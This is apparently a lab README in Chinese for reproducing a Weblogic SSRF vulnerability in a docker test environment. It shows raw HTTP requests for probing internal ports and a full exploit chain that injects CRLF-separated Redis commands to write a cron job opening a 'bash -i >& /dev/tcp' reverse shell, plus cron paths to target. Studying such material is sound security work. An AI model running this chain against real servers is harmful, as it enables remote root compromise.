





# Weblogic SSRF漏洞

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。

## 测试环境搭建

编译及启动测试环境

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip:7001/uddiexplorer/`，无需登录即可查看uddiexplorer应用。

## SSRF漏洞测试

SSRF漏洞存在于`http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp`，我们在brupsuite下测试该漏洞。访问一个可以访问的IP:PORT，如`http://127.0.0.1:80`：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

可访问的端口将会得到错误，一般是返回status code（如下图），如果访问的非http协议，则会返回`did not have a valid SOAP content-type`。



修改为一个不存在的端口，将会返回`could not connect over HTTP to server`。



通过错误的不同，即可探测内网状态。

## 注入HTTP头，利用Redis反弹shell

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

首先，通过ssrf探测内网中的redis服务器（docker环境的网段一般是172.*），发现`172.18.0.2:6389`可以连通：



发送三条redis命令，将弹shell脚本写入`/etc/crontab`：

```
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/172.18.0.1/21 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

进行url编码：

```
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.18.0.1%2F21%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

注意，换行符是“\r\n”，也就是“%0D%0A”。

将url编码后的字符串放在ssrf的域名后面，发送：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.18.0.3:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.18.0.1%2F21%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```



成功反弹：




最后补充一下，可进行利用的cron有如下几个地方：

 - /etc/crontab 这个是肯定的
 - /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
 - /var/spool/cron/root centos系统下root用户的cron文件
 - /var/spool/cron/crontabs/root debian系统下root用户的cron文件

